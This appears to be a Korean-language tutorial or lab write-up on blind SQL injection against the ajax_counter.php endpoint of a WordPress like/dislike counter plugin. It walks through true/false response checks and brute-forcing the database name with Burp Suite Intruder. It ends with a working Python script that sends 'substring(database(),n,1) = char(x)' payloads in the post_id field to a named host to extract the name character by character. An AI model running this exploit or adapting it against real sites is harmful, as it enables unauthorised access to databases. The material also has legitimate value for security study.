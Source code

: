 * 참

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183009801-c6365ef2-1071-4b47-83d5-bf40a7648814.png" width = 550>
</p>

* 거짓

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183009694-4f5aa19f-682b-498d-b3bb-a09bfbb35cb7.png" width = 550>
</p>

이 처럼 참 거짓 쿼리 반응이 다른 것을 알 수 있다. 

#### DB Name

해당 데이터베이스 이름을 Blind로 알기 위해서는 처음부터 계속 값을 비교해야한다. 이것을 일일이 하기엔 쉽지 않다.

**따라서, Burp Suite에서 Intruder를 이용해서 진행한다.**

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183011397-90f4b130-e27f-47ae-8063-46d92d6bd44f.png" width = 410>
</p>

우리가 반복적으로 보낼 패킷에서 해당 **post_id**에 데이터베이스 이름의 값을 참 거짓 판별하기 위한 쿼리문을 집어넣고, 해당 값이 변수 처럼 진행하기 위해서 `Add §`해준다.

**Payloads** 항목에서 Type을 `Number`로 바꾸고, 아스키 코드 32 ~ 127를 비교할 것이므로 `From To`를 변경해준다. 해당 페이로드로 Start Attack을 하여 결과를 체크해본다.

아스키코드 '119'에서 결과 값이 1로 참임을 뜻한다. 따라서 첫 글자는 **w**임을 알 수 있다. 

> 숫자가 파라미터 일 때는 싱글 쿼테이션을 사용 하지 않는다. 따라서, 문자열 'a' 과 같이 and 로 Blind 하면 싱글 쿼테이션 때문에 쿼리문이 깨진다. **char()를 이용하거나 ascii()를 이용해서 싱글 쿼테이션 사용 없이 쿼리를 진행한다.**

몇 글자 일지도 모르는 데이터베이스의 이름을 이렇게 수작업 하는 것도 노동이 된다. 그렇기에 스크립트를 작성한다.

```Python
#!/usr/bin python
import requests
import string

url = "http://dev.fngs.kr./wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php"
db_name = ""
subStr = 0

while 1 :
    subStr += 1
    for asciiCode in range(97, 127):
        brute_string = '1 and substring(database(),'+str(subStr)+',1) = char('+str(asciiCode)+')'
        payload = {'post_id' : brute_string, 'up_type' : 'like'}
        r = requests.post(url, data = payload)
        if r.json() == 1:
            db_name += chr(asciiCode)
            print('DB_NAME = ', db_name)
```
